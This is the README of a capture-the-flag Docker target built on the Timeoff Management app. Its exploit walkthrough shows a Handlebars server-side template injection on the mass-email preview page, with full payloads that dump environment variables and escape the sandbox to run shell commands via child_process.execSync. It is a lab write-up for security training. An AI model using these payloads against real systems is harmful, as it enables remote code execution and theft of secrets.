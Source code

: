 # Vacation Planner Docker Target

This repo contains code to set up [Timeoff Management](https://github.com/timeoff-management/timeoff-management-application) as a Docker container.

The app's code is included in a submodule of this repo.

## Usage

1. Change the contents of `flag.txt`
2. `docker build -t vacation-planner .`
3. `docker run -p 3000:3000 --name vacation-planner vacation-planner`

## Exploit

After navigating to the website, you are presented with a login form. Register a new company with bogus details to access the full functionality of the web application.

There is much to browse and test, but eventually you should find the "mass email" page.

Once you try to preview a message that includes `{{`, aiming to find a server-side template injection (SSTI) vulnerability, you are presented with an error message:

```
Error: Parse error on line 1:
{{
--^
Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'EOF'
    at Parser.parseError (/var/lib/vacation-planner/timeoff-management-application/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/var/lib/vacation-planner/timeoff-management-application/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse ...
...
```

From the error message, it is possible to see that Handlebars is being used for template rendering. A quick investigation gives us http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html and the following payload:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Using this as the message body, we can read the environment variables and confirm SSTI.

After trying to get code execution using normal means, it is apparent that `require` keyword is not available in the limited sandbox provided by Handlebars.

Based on https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/, it is possible to bypass the `require` requirement by using `global.process.mainModule.constructor._load` instead.

Final exploit:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat flag.txt\").toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

The message preview will show the results, proving command execution is possible:

```
      e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            flag{with_with_with_with_each_with_this}
```
